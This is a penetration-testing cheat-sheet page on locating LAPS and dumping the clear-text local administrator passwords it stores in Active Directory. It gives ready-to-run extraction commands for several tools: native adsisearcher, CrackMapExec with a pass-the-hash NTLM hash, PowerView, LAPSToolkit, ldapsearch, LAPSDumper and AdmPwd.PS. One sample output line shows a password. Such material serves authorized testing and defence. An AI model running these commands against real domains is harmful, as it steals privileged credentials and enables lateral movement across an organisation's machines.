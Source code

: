 # LAPS Passwords

{% hint style="info" %}
Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
{% endhint %}

## **Determine if LAPS is installed**

```
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

## **Extract LAPS password**

{% hint style="info" %}
The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
{% endhint %}

### adsisearcher (native binary on Windows 8+)

```
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
```

### CrackMapExec

```
crackmapexec smb 10.10.10.10 -u user -H 8846f7eaee8fb117ad06bdd830b7586c -M laps
```

### Powerview

```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### LAPSToolkit&#x20;

#### &#x20;[https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```
$ Get-LAPSComputers
ComputerName                Password                                 Expiration         
------------                --------                                 ----------         
exmaple.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

$ Find-LAPSDelegatedGroups
$ Find-AdmPwdExtendedRights
```

### ldapsearch

```
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
```

### LAPSDumper&#x20;

****[** https://github.com/n00py/LAPSDumper**](https://github.com/n00py/LAPSDumper)****

```
python laps.py -u user -p password -d domain.local
python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### Powershell AdmPwd.PS

```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
